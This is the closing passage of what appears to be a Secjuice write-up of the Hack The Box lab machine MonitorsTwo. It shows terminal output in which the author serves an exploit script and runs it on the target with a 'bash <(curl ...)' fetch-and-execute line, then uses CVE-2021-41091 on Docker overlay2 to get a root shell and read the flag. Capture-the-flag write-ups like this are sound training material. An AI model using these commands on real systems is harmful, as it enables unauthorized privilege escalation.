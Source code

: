     exp.sh                                             100%[=============================================================================================================>]   2.39K  --.-KB/s    in 0.002s  
    
    2023-05-20 06:09:32 (1.03 MB/s) - ‘exp.sh’ saved [2446/2446]
    
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/upld]
    └─$ php -S 10.10.14.78:80
    [Sat May 20 06:09:35 2023] PHP 8.2.4 Development Server (http://10.10.14.78:80) started
    

Ready!

    marcus@monitorstwo:/tmp$ bash <(curl -s http://10.10.14.78/exp.sh)
    [!] Vulnerable to CVE-2021-41091
    [!] Now connect to your Docker container that is accessible and obtain root access !
    [>] After gaining root access execute this command (chmod u+s /bin/bash)
    
    Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
    [!] Available Overlay2 Filesystems:
    /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
    /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
    
    [!] Iterating over the available Overlay2 filesystems !
    [?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
    [x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'
    
    [?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
    [!] Rooted !
    [>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
    [?] If it didn't spawn a shell go to this path and execute './bin/bash -p'
    
    [!] Spawning Shell
    bash-5.1# exit
    marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
    marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
    bash-5.1# whoami
    root
    bash-5.1# ls -la /root/root.txt
    -rw-r----- 1 root root 33 May 20 02:50 /root/root.txt
    bash-5.1# cat /root/root.txt
    6******************************6

Woooo, what a fantastic surprise, even if from the preliminary tests it didn't seem feasible to me. Anyway, another interesting BOX indeed. As always, while waiting for another machine, have good hacking. That's all folks.

## Help Support Our Non-Profit Mission

If you enjoyed this article or found it helpful please consider making a **U.S. tax-deductible** donation, Secjuice is a non-profit and volunteer-based publication powered by donations. We will use your donation to help cover our hosting costs and **keep Secjuice an advertisement and sponsor free zone**.

[Make a tax-deductible donation](https://opencollective.com/secjuice)
